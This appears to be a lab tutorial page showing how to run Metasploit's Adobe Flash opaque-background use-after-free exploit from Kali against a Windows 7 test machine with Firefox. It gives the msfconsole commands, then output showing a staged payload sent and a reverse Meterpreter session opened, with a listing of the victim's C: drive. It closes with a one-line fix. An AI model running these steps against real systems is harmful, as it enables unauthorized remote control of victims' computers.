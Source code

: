 Metasploit Adobe Flash 18.0.0.203 Exploit – Windows 7 / Windows 8.1
**Attacker:** Kali Linux<br>
**Victim:** Windows 7 Enterprise 32-bit (Adobe Flashplayer 18.0.0.203, Firefox 39)
##Step 1 – Starting the Exploit Server
Run msfconsole, load adobe-flash-opaque-background-uaf and set all required options.
<code>
<div class="code">
root@kali:~$ <com>msfconsole</com><br>
msf > <com>use exploit/multi/browser/adobe_flash_opaque_background_uaf</com><br>
msf exploit(adobe_flash_opaque_background_uaf) > <com>set SRVPORT 80</com><br>
msf exploit(adobe_flash_opaque_background_uaf) > <com>set URIPATH /</com><br>
msf exploit(adobe_flash_opaque_background_uaf) > <com>exploit</com><br>
[*] Local IP: http://192.168.1.12:80/<br>
[*] Server started.<br>
</div>
</code>

##Step 2 – Exploiting the Victim Machine
On your Windows test machine (victim), start Firefox and browse to http://192.168.1.12.<br>
This will trigger the adobe-flash-opaque-background-uaf exploit and launch a meterpreter session.<br>
<code>
<div class="code">
[*] 192.168.1.11 adobe_flash_opaque_background_uaf - Sending SWF...<br>
[*] Sending stage (885806 bytes) to 192.168.1.11<br>
[*] Meterpreter session 1 opened (192.168.1.12:4444 -> 192.168.1.11:49297) at 2015-08-01 04:39:34 -0400<br>
msf exploit(adobe_flash_opaque_background_uaf) > <com>sessions -i 1</com><br>
[*] Starting interaction with 1...<br>
<br>
meterpreter > <com>getuid</com><br>
Server username: IE8Win7\IEUser<br>
meterpreter > <com>ls</com><br>
Listing: C:\<br>
============<br>
<br>
Mode Size Type Last modified Name<br>
---- ---- ---- ------------- ----<br>
40777/rwxrwxrwx 0 dir 2013-10-23 12:22:56 -0400 $Recycle.Bin<br>
40777/rwxrwxrwx 0 dir 2009-07-14 00:53:55 -0400 Documents and Settings<br>
40777/rwxrwxrwx 0 dir 2009-07-13 22:37:05 -0400 PerfLogs<br>
40555/r-xr-xr-x 0 dir 2015-08-01 03:32:42 -0400 Program Files<br>
40777/rwxrwxrwx 0 dir 2015-08-01 03:32:42 -0400 ProgramData<br>
40777/rwxrwxrwx 0 dir 2013-10-23 12:22:42 -0400 Recovery<br>
40777/rwxrwxrwx 0 dir 2014-11-26 14:57:05 -0500 System Volume Information<br>
40555/r-xr-xr-x 0 dir 2013-10-23 12:22:47 -0400 Users<br>
40777/rwxrwxrwx 0 dir 2013-10-23 17:52:20 -0400 Wallpaper<br>
40777/rwxrwxrwx 0 dir 2015-08-01 03:20:08 -0400 Windows<br>
100777/rwxrwxrwx 24 fil 2009-06-10 17:42:20 -0400 autoexec.bat<br>
100666/rw-rw-rw- 10 fil 2009-06-10 17:42:20 -0400 config.sys<br>
100666/rw-rw-rw- 1073741824 fil 2015-08-01 04:01:24 -0400 pagefile.sys<br>
</div>
</code>
##Solution
Uninstall flashplayer.

Tags: metasploit
